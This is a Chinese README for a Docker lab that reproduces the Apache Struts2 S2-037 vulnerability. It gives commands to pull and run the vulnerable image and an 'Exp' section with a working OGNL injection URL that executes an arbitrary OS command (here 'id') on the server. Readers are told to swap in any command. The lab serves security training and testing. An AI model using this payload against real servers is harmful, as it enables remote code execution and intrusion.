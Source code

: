 ## Struts2 S2-037 漏洞环境

### 说明

 官方 demo 中提供的 war 包由于添加了 jsp 拦截器，配置会有问题，修正了一下。

### 漏洞信息

 * [S2-037 官方公告](http://struts.apache.org/docs/s2-037.html)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-037
 ```

2. 启动环境

 ```
$ docker run -d -p 8080:8080 medicean/vulapps:s_struts2_s2-037
 ```
 > `-p 8080:8080` 前面的 8080 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

假定启动后的地址为：http://127.0.0.1:8080/

执行 id 命令：

```
http://127.0.0.1:8080/orders/4/(%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23wr%3d%23context%5b%23parameters.obj%5b0%5d%5d.getWriter(),%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr.println(%23rs),%23wr.flush(),%23wr.close()):xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=16456&command=id
```

> 修改参数 command 的值为你要执行的命令

![](./exp-1.png)

### 改动日志

20160731

 * 修正资源为本地路径

20160909

 ＊ 修正开启 devMode 后导致找不到类的问题
